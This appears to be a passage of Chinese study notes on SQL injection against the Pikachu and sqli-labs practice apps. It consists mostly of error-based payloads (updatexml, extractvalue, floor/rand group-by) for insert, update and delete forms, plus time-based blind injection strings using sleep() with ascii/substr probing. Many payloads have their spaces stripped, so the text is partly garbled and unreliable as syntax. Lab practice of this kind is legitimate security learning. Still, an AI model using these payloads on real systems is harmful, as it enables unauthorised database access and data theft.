 `

`Payload:-
pikachuinsert-
username=x'or(select1from(selectcount(*),concat((select(select(selectconcat(0x7e,database(),0x7e)))-
frominformation_schema.tableslimit0,1),floor(rand(0)*2))xfrominformation_schema.tablesgroupbyx)a)-
or'&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

username=x'orupdatexml(1,concat(0x7e,(version())),0)or-
'&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

username=x'orextractvalue(1,concat(0x7e,database()))or-
'&password=xiaodi&sex=%E7%94%B7&phonenum=13878787788&email=wuhan&add=hubei&submit=submit

pikachuupdate-
sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky'or(select1from(selectcount(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)xfrominformation_schema.character_setsgroupbyx)a)or'&email=wuhan&submit=submit

sex=%E7%94%B7&phonenum=13878787788&add=hubeNicky'orupdatexml(1,concat(0x7e,(version())),0)or'&email=wuhan&submit=submit

sex=%E7%94%B7&phonenum=13878787788&add=Nicky'orextractvalue(1,concat(0x7e,database()))or'&email=wuhan&submit=submit

pikachudelete-
/pikachu/vul/sqli/sqli_del.php?id=56+or+(select+1+from(select+count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x+from+information_schema.character_sets+group+by+x)a)

pikachu/vul/sqli/sqli_del.php?id=56+or+updatexml+(1,concat(0x7e,database()),0)

/pikachu/vul/sqli/sqli_del.php?id=56+or+extractvalue(1,concat(0x7e,database()))

`

### 16.1 判断注入点

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMh8PT5StKUFicQgs1XsSOF1v37f0zS7OohOoaxWe7WiadouURaja6Ng0VA%2F640%3Fwx_fmt%3Dpng)

**这四个位置都会接收我们传过去的数值，正常都可以作为注入点，只要可以对测试代码作出反应就可以。**-

### 16.2 针对无回显的布尔、延迟

> `mysql_fetch_array`:无回显函数

SQL注入

`延时盲注：利用 and 链接正确语句，让if判断脚本对错，两个联合起来再通过时间来给出反馈，判断脚本是否执行正确。-
andif(ascii(substr(database(),1,1))=115,sleep(5),1)--+-
andif(ascii(substr((selecttable_namefrominformation_schema.tableswheretable_schema=database()-
limit0,1),1,1))=101,sleep(3),0)--+-
`

*   数据库是security就延时5秒，否则不延迟
    
*   `http://sqli-labs:8600/Less-2/?id=1 and sleep(if(database()= 'security',5,0))--+`
    